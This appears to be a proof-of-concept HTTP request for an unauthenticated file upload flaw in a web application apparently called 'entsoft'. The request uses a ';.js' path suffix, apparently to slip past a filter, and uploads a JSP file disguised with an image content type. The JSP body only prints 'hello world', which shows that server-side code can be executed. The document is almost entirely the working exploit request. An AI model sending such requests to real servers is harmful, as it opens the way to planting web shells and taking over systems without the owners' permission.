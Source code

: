 POST /entsoft/CustomerAction.entphone;.js?method=loadFile HTTP/1.1
Host: xxxxxxxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Length: 208

------WebKitFormBoundarye8FPHsIAq9JN8j2A
Content-Disposition: form-data; name="file";filename="xx.jsp"
Content-Type: image/jpeg

<%out.print("hello world");%>
------WebKitFormBoundarye8FPHsIAq9JN8j2A--